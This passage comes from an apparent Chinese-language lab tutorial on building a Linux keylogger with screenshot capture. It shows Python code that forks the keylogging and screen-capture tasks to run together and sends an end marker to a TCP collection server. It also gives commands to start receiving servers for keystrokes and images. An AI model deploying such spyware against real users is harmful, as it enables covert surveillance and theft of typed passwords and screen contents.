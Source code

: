 ```
    def send_stop_message(self):
        # 发送结束标志
        # 建立一个任务，然后发送相应的内容,告诉数据已经发送完毕
        content = "\r\nover\r\n"
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        # 记得释放这个tcp的链接
        self.server_instance.destroy()
```
## 2.6 运行程序

上述我们实现了键盘记录、截图功能、数据发送功能。根据4.2，在这里讲述下Python的多进程编程，将上述功能组合在一起实现并发运行。 Python下

的多进程编程常用的库是muptiprocessing,multiprocessing库提供了非常强大的功能，支持子进程、通讯和共享数据。 但因本程序限制在linux环境下，

所以使用更为轻量的os.fork来创建多进程程序。
```
def main(key_name, pic_name, key_type='txt', pic_type='png'):
    """
       因为捕捉键盘记录 和屏幕截图 是两个独立的任务，
       所以在这里fork产生一个新的进程来执行屏幕截图
    """
    f = os.fork()
    if f == 0:
        # 这里是子进程, 会调用外部程序
        screen_shot(pic_name, pic_type)
    else:
        # 父进程
        keylogger_func(key_name, key_type)
```
接下来我们运行一下程序看一下实验效果。

* 开启键盘数据的服务
    * python server.py -p 8888
* 开启接收图片数据的服务
    * python server -p 8889
* 运行我们的主程序
    * python main.py
在程序运行期间，你可以在键盘上任意输入就可以进行记录了。运行效果如下,其中shot.png是服务器保存下来的屏幕截图，key.txt是键盘记录的数据。
